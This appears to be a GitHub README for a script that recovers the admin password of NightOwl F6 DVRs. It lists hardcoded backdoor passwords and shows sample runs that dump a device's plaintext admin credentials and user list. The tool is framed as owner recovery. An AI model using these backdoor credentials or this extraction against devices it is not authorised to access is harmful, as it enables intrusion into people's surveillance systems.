 # Recover NightOwl SVR Password
This script recovers the admin password for the NightOwl F6-series of devices, using the documented backdoor password ```2x8axc```. The backdoor password is useful for regaining read-only access to the device, but in order to reset the actual admin password, or make any system changes, you need a valid admin-level account. This script *should* get that for you, otherwise you can capture network packets while you visit the ```Users``` section to get the password.

<img width="759" alt="nightOwl" src="https://user-images.githubusercontent.com/1743650/198940392-7006054c-d45f-4fd4-a137-f12215b90370.png">

Other possible passwords include:

```
519070
101101
```

For more information, see: https://web.archive.org/web/20200810153724/https://support.nightowlsp.com/hc/en-us/articles/360009216554-Night-Owl-Legacy-Devices

## Good Recovery:
```console
% ./NightOwl_F6-get-admin-password.py -t 10.1.1.5

[INFO] ADMIN USER: admin
[INFO] ADMIN PASS: 4321abcd
```

## Verbose output:
```console
% ./NightOwl_F6-get-admin-password.py -t 10.1.1.5 -v

[VERBOSE] SYSTEM DATA: ['00-23-63-43-BB-98', 'F6-DVR8', 'SRV6.1.0-20150423', 'UPWXLHPP54ZMNBHY111A']
[VERBOSE] USER DATA:   ['4321abcd', 'admin', 'user1', 'user2', 'user3', 'user4', 'user5', '@', 'user6']

[INFO] ADMIN USER: admin
[INFO] ADMIN PASS: 4321abcd
```

## Failed Recovery:
```console
% ./NightOwl_F6-get-admin-password.py -t 10.1.1.10

[ERROR] timed out connecting to 10.1.1.10
Check the IP and try again
```

